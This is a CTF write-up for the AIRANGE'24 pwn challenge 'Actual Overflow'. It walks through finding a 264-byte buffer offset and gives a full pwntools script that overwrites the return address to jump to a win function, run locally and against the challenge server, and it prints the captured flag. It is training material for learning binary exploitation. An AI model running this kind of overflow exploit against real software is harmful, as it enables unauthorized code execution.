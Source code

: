 ```yaml
---
title: AIRANGE'24 - Pwn - Actual Overflow
date: '2024-03-10'
tags: ['ctf', 'pwn', 'airange', 'overflow']
draft: true
summary: It  was my first pwn challenge plus learned alot from it. Huge thanks to TheFlash2k for developing such challenges.
---
```


## Challenge Description

Trust me, it's as easy as it gets

**NOTE:** If you're able to make the jump, but still stuck, look into how stack alignment works and how the MOVAPS instruction causes the problem.

[Download](https://airange.online/files/d609687a9a7a48a4cbae9ff72a55484a/actual_overflow.tar?token=eyJ1c2VyX2lkIjo3MSwidGVhbV9pZCI6bnVsbCwiZmlsZV9pZCI6MzF9.Ze0hww.VsqE2NIqnSB3disCFHCp94exz-s)

## Solution

In the source code, we can see that win function (which is the responsible of displaying flag) is not called. Only run function is called:

![Screenshot](/static/writeups/airange24/pwn/aof_pic1.png)

We can use buffer overflow to make the win function execute.

For that we need 2 things, offset and memory address of the system call made in the win function.

First let’s find the offset:

```python
python3 -c "print('A'*264)" | ./actual_overflow
```

The offset of buffer is 264:

![Screenshot](/static/writeups/airange24/pwn/aof_pic2.png)

Now let’s find the address of system call:

![Screenshot](/static/writeups/airange24/pwn/aof_pic3.png)

Now the payload that I used:

```python
from pwn import *

# Loading the ELF binary into the variable 'elf'
elf = ELF("actual_overflow")

# Establish a connection to the locally running process
p = elf.process()

# For remote server:
# p = remote("143.198.227.172", 32776)

# Receiving data from the process and print it
print(p.recv())

# Crafting a payload to exploit the buffer overflow vulnerability
# Prepare the address to the desired function to be called after the overflow
addr = p64(0x401240)

# Generating padding to fill up the buffer until the return address position
padding = (b"A" * 264)

# Construct the payload by concatenating the padding and the address
payload = padding + addr

# Sending the payload to the process
p.sendline(payload)
p.interactive()
```

Our exploit is running successfully on the local machine:

![Screenshot](/static/writeups/airange24/pwn/aof_pic4.png)

Lets run it against remote server to get flag:

![Screenshot](/static/writeups/airange24/pwn/aof_pic5.png)

```
AUCSS{l00k_maa_my_f1rs7_buff3r_0verfl0w}
```
